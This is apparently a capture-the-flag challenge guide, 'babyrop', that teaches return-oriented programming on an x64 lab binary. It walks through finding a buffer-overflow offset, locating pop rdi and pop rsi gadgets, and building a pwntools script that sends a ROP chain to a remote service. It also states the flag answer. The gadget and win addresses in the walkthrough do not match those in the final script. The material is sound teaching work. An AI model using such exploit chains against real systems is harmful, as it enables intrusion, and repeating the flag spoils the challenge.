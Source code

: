 # Challenge Name
babyrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.


### Calling conventions

In x64, when a function is called and there are arguments involved, it will look for the registers in this particular order:
1. `rdi` - 1st argument
2. `rsi` - 2nd argument
3. `rdx` - 3rd argument
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

### To find the offset needed:
1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes. This cyclic sequence helps uses to identify what address or how many bytes we want to overwrite.
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

4. You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc58 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```

Let's find the offset needed:
```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

### To find the `win` address:
```sh
$> objdump -d chall | grep win
0000000040537 <win>:
...
```

### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. This will be with the use of gadgets

Essentially, when you return to the gadget's address:
```shell
0x0000000000400603 : pop rdi ; ret
```

It will:
1. pop an address/value off the stack
2. return to the next address

So our plan is to get the gadget to:
1. pop a value **we want**
2. return to the **next gadget address/win address**

Based on that, we can assemble the following:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

### Final solution
```py
from pwn import *

# setup process
p = remote("IP", PORT)

# address of win function
win_addr = p64(0x400757)

# ROP gadget addresses
rdi_addr = p64(0x4008e3)
rsi_addr = p64(0x4008e1)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
`MACCTF{rdirsi}`